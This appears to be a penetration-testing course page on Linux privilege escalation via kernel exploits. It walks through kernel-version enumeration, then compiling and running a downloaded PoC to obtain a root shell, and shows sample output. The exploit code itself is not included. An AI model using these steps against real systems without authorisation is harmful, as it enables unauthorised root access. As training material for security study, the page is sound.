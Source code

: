 A very well known example of a kernel exploit is [Dirty COW](https://github.com/dirtycow/dirtycow.github.io) (CVE-2016-5195). These leverage vulnerabilities in the kernel to execute code with root privileges. It can be hard to keep track of legacy systems, and they may be excluded from patching due to compatibility issues with certain services or applications.

Privilege escalation using a kernel exploit can be as simple as downloading, compiling, and running it. Some of these exploits work out of the box, while others require modification. A quick way to identify exploits is to issue the command `uname -a` and search Google for the kernel version.

Note: Kernel exploits can cause system instability so use caution when running these against a production system.

## Kernel Exploit Example

Let's start by checking the Kernel level and Linux OS version.
```shell-session
$ uname -a

Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

```shell-session
$ cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
```

We can see that we are on Linux Kernel 4.4.0-116 on an Ubuntu 16.04.4 LTS box. A quick Google search for `linux 4.4.0-116-generic exploit` comes up with [this](https://vulners.com/zdt/1337DAY-ID-30003) exploit PoC. Next download, it to the system using `wget` or another file transfer method. We can compile the exploit code using [gcc](https://linux.die.net/man/1/gcc) and set the executable bit using `chmod +x`.
```shell-session
$ gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```

Next, we run the exploit and hopefully get dropped into a root shell.
```shell-session
$ ./kernel_exploit 

task_struct = ffff8800b71d7000
uidptr = ffff8800b95ce544
spawning root shell
```

Finally, we can confirm root access to the box.
```shell-session
root@htb[/htb]# whoami

root
```

Exploit used to solve the challenge [here](https://medium.com/@omerbureyde/overlayfs-cve-2021-3493-9f675613fe1e).